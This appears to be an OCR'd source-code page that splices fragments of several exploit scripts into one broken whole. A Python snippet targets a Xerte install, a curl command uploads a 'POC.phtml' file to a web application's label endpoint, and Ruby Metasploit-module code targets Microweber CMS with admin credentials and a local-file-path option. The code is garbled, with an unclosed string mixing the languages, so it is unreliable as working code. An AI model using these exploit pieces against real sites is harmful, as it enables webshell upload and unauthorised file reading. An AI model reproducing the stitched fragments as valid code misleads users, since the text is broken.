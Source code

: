# Find the install path:
install_path = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
install_path = re.findall('mediapath" value="(.+?)"', install_path.text)[0]

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'nl,en-US;q=0.7,en;q=0.3',
    'Content-Type': 'multipart/form-data; boundary=---------------------------170331411929658976061651588978',
   }

# index.inc file
data = \
'''-----------------------------170331411929658976061651588978
curl -i -s -X POST -F "logo_file=@POC.phtml" "http://$host/show_part_label.php" | grep -o -P '(?<=value="data/media/labels/).*(?=" > <p)'
register_options(
  [
    OptString.new('TARGETURI', [true, 'The base path for Microweber', '/']),
    OptString.new('USERNAME', [true, 'The admin\'s username for Microweber']),
    OptString.new('PASSWORD', [true, 'The admin\'s password for Microweber']),
    OptString.new('LOCAL_FILE_PATH', [true, 'The path of the local file.']),
    OptBool.new('DEFANGED_MODE', [true, 'Run in defanged mode', true])
  ]
)
if res.nil?
  fail_with(Failure::Unreachable, 'Microweber CMS cannot be reached.')
end

print_status 'Checking if it\'s Microweber CMS.'

if res.code == 200 && !res.body.include?('Microweber')
  print_error 'Microweber CMS has not been detected.'
  Exploit::CheckCode::Safe
end

if res.code != 200
  fail_with(Failure::Unknown, res.body)
end

print_good 'Microweber CMS has been detected.'

return check_version(res.body)
begin
  major, minor, build = res_body[/Version:\s+(\d+\.\d+\.\d+)/].gsub(/Version:\s+/, '').split('.')
  version = Rex::Version.new("#{major}.#{minor}.#{build}")
rescue NoMethodError, TypeError
  return Exploit::CheckCode::Safe
end
